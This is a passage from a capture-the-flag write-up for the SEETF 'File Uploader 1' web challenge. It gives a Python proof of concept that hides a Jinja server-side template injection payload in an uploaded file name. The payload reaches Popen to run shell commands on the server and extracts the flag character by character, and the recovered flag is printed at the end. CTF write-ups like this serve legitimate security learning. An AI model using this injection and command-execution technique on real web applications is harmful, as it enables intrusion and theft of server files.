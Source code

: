 And a little of waiting, voila. The flag has been successfully exfiltrated out.

### PoC

```python
# By Kair0s3
# Purpose - Blind binary search SSTI
# for File Uploader 1 challenge
import requests
import time

flag = "SEE{y0U_6yPa55Ed_FuNny_55t1_f1lTer"

for i in range(9 + len(flag), 60):
    for dec in range(33, 127):
        payload = "{% if DEC == get_flashed_messages.__class__.__mro__[1].__subclasses__()[394]('nl flag.txt',shell=True,stdout=-1).communicate()[0].decode()[IDX] %} kair0s3 {% endif %}"
        payload = payload.replace('DEC', f"{dec}.to_bytes(1, byteorder='little').decode()")
        payload = payload.replace('IDX', str(i))
        print("Checking if flag is", flag + chr(dec), i)
        files = {
            'file' : (f"{payload}.exe", '123')
        }

        r = requests.post('http://fu1.web.seetf.sg:1337/upload', files=files)
        print(r.text)
        if 'kair0s3' in r.text:
            flag += chr(dec)
            print("Found!", flag)
            if flag[-1] == '}':
                print("Final Flag", flag)
                exit()
            break
        elif "nice try" in r.text:
            flag += "_"
            print("Found!", flag)
            break
        # To prevent dos-SEE's server
        time.sleep(0.25)
exit()
```

### Flag

```markdown
SEE{y0U_6yPa55Ed_FuNny_55t1_f1lTer5}
```

### Side-notes

For the `nl` command, it formats in the form of

```python
     1  # SEE{<REDACTED>}
```

